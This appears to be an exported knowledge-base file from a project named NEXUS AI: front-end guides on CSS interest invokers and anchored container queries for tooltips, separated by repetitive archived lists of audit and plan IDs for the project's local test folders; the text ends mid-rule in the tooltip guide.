```

> [!NOTE]
> **Don't announce interest-driven previews via a live region.** Interest can be triggered just by moving the pointer across the page or tabbing through nearby buttons, so apply/unapply announcements quickly become noise that can drown out content the user actually cares about. The preview itself is the affordance; users who can perceive it benefit directly, and those who can't will not benefit from a verbal echo of "Previewing effect: A". If you decide you genuinely need an announcement for a specific case, make sure to test it carefully with users.

Active interest sources and targets can be selected with CSS using the `:interest-source` and `:interest-target` pseudo-selectors respectively.

```css
/* Styles to apply when the effect is being previewed */
:interest-source {}
:interest-target {}
```

The start and end delay for an interest invoker (i.e. the element with the `interestfor` attribute) can be set with the `interest-delay-start` and `interest-delay-end` CSS properties or the shorthand `interest-delay` property.

```css
[interestfor] {
  interest-delay-start: 0.2s;
  interest-delay-end: 0.1s;
}
```

### Fallback strategies

Interest invokers has limited availability.
Supported by: Chrome 142 (Oct 2025) and Edge 142 (Oct 2025).
Unsupported in: Firefox and Safari.

Interest invokers must be conditionally polyfilled using the `interestfor` polyfill package from NPM. Do prefer bundling the polyfill over using the CDN.

```html
<script type="module">
  if(!HTMLButtonElement.prototype.hasOwnProperty("interestForElement")){
    // CDN link only used for example, prefer bundling.
    await import("https://unpkg.com/interestfor@latest");
  }
</script>
```

When using the polyfill the CSS API changes slightly for the `:interest-source` and `:interest-target` pseudo-classes, as well as, the `interest-delay`, `interest-delay-start`, and `interest-delay-end` properties:

```css
/* Styles to apply when the effect is being previewed */
:is(:interest-source, .interest-source) {}
:is(:interest-target, .interest-target) {}

/* Adjust the start and end delay for interest invokers */
[interestfor] {
  --interest-delay-start: 0.2ms;
  interest-delay-start: 0.2ms;
  --interest-delay-end: 0.1ms;
  interest-delay-end: 0.1ms;
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, api]

### 📘 KNOWLEDGE: NEXUS_LIVEWIRE_REACTIVE_VALIDATOR_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144579286 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 9
- **Audit ID**: AUDIT-1778144579286-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144579286-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144579286-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144579286-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144579286-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144579286-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144579758 | **Audit Ref**: AUDIT-1778144579286 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144888380 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 7
- **Audit ID**: AUDIT-1778144888380-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144888380-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144888380-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144888380-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144888380-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144888380-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144888786 | **Audit Ref**: AUDIT-1778144888380 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144931113 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 7
- **Audit ID**: AUDIT-1778144931113-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144931113-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144931113-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144931113-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144931113-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778144931113-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144931592 | **Audit Ref**: AUDIT-1778144931113 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145134712 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 7
- **Audit ID**: AUDIT-1778145134712-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145134712-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145134712-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145134712-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145134712-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145134712-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145135147 | **Audit Ref**: AUDIT-1778145134712 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145251321 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 7
- **Audit ID**: AUDIT-1778145251321-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145251321-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145251321-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145251321-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145251321-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145251321-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145251740 | **Audit Ref**: AUDIT-1778145251321 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145310556 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 7
- **Audit ID**: AUDIT-1778145310556-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145310556-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145310556-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145310556-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145310556-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1
- **Audit ID**: AUDIT-1778145310556-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\livewire_reactive_validator | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145310961 | **Audit Ref**: AUDIT-1778145310556 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, livewire_reactive_validator]

### 📘 KNOWLEDGE: NEXUS_MEMORY_CONSISTENCY_TEST_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144618203 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 9
- **Audit ID**: AUDIT-1778144618203-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144618203-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144618203-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144618203-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144618203-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144618203-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144618752 | **Audit Ref**: AUDIT-1778144618203 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144906902 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144906902-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144906902-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144906902-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144906902-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144906902-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144906902-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144907260 | **Audit Ref**: AUDIT-1778144906902 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144951626 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 7
- **Audit ID**: AUDIT-1778144951626-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144951626-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144951626-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144951626-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144951626-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778144951626-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144952041 | **Audit Ref**: AUDIT-1778144951626 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145154069 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145154069-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145154069-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145154069-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145154069-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145154069-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145154069-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145154478 | **Audit Ref**: AUDIT-1778145154069 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145270655 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145270655-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145270655-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145270655-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145270655-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145270655-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145270655-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145271060 | **Audit Ref**: AUDIT-1778145270655 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145330154 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 7
- **Audit ID**: AUDIT-1778145330154-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145330154-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145330154-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145330154-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145330154-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1
- **Audit ID**: AUDIT-1778145330154-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\memory_consistency_test | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145330688 | **Audit Ref**: AUDIT-1778145330154 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, memory_consistency_test]

### 📘 KNOWLEDGE: NEXUS_MULTI-AGENT_DEBUGGING_SYSTEM_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144607586 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 9
- **Audit ID**: AUDIT-1778144607586-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144607586-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144607586-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144607586-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144607586-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144607586-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144608033 | **Audit Ref**: AUDIT-1778144607586 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144900616 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144900616-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144900616-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144900616-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144900616-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144900616-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144900616-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144901050 | **Audit Ref**: AUDIT-1778144900616 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144944637 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144944637-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144944637-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144944637-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144944637-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144944637-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144944637-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144945053 | **Audit Ref**: AUDIT-1778144944637 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145147453 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145147453-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145147453-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145147453-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145147453-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145147453-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145147453-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145147873 | **Audit Ref**: AUDIT-1778145147453 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145263972 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145263972-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145263972-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145263972-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145263972-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145263972-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145263972-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145264460 | **Audit Ref**: AUDIT-1778145263972 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145323586 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145323586-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145323586-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145323586-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145323586-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145323586-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145323586-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\multi-agent_debugging_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145324019 | **Audit Ref**: AUDIT-1778145323586 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, multi-agent_debugging_system]

### 📘 KNOWLEDGE: NEXUS_POSITION-AWARE-TOOLTIPS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

When building tooltips or popovers with CSS Anchor Positioning, the browser can automatically "flip" the element to a fallback position if it would otherwise overflow the viewport. When this happens, you may want to adjust the style of the positioned content, for instance to reposition an arrow that points from the positioned content to the anchor.

**Anchored Container Queries** solve this by allowing you to query the active positioning state of an element and apply styles accordingly.

## The problem

Imagine a tooltip that appears above its anchor by default. It has a "down" arrow at the bottom. If the user scrolls and the tooltip flips to appear *below* the anchor, the arrow is now pointing the wrong way and is on the wrong side of the tooltip.

## The solution: Anchored Container Queries

By setting `container-type: anchored` on your positioned element, you turn it into a query container that knows about its own anchor-positioned state. You can then use the `@container anchored()` query to update its descendants or pseudo-elements.

### 1. Create the tooltip and trigger

Use the Popover API to create a tooltip. This creates an implicit anchor connection that can be used for positioning.

```html
<button popovertarget="tooltip" id="anchor" aria-describedby="tooltip">anchor</button>
<div id="tooltip" popover role="tooltip"></div>
```

Reset the popover inset and margin styles for use with anchor positioning, but only if anchor positioning is supported.

```css
@supports (anchor-name: --my-anchor) {
  [popover] {
    inset: auto;
    margin: unset;
  }
}
```

### 2. Set up the container

Apply `container-type: anchored` to the element being positioned. This element must also have `position-try-fallbacks` defined to enable the flipping behavior.

```css
#tooltip {
  position: fixed;
  position-area: block-start;
  position-try-fallbacks: flip-block;

  /* Enable anchored container queries */
  container-type: anchored;
}
```

### 3. Style based on the fallback

Use `@container anchored(fallback: <value>)` to apply styles when a specific fallback is active.

Like all container queries, `@container` can only style **descendants** of the container. A common strategy to create the arrows is with the `::before` and `::after` pseudo-elements, which are treated as descendants and can be styled directly. However, to style the tooltip itself (as seen in step 4), we will add a child element to the tooltip, and create the arrow in its `::before` pseudo-element.

```html
<div id="tooltip" popover role="tooltip">
  <div class="tooltip-content">Tooltip</div>
</div>
```

```css
.tooltip-content::before {
  /* Default "down" arrow for the 'top' position */
  content: "▼";
  position: absolute;
  inset-block-end: 0;
  inset-inline-start: 1rem;
}

/* Update to an "up" arrow when the 'flip-block' fallback (bottom) is active */
@container anchored(fallback: flip-block) {
  .tooltip-content::before {
    content: "▲";
    inset-block-start: 0;
    inset-block-end: auto;
  }
}
```

## 4. Styling the container itself

If you need to change properties on the container itself (like `margin` or `background-color`) when it flips, you should use an **inner wrapper element**.

1. Apply `container-type: anchored` to the outer positioned element.
2. Target the inner element inside the `@container` block.


```css
@container anchored(fallback: flip-block) {
  .tooltip-content {
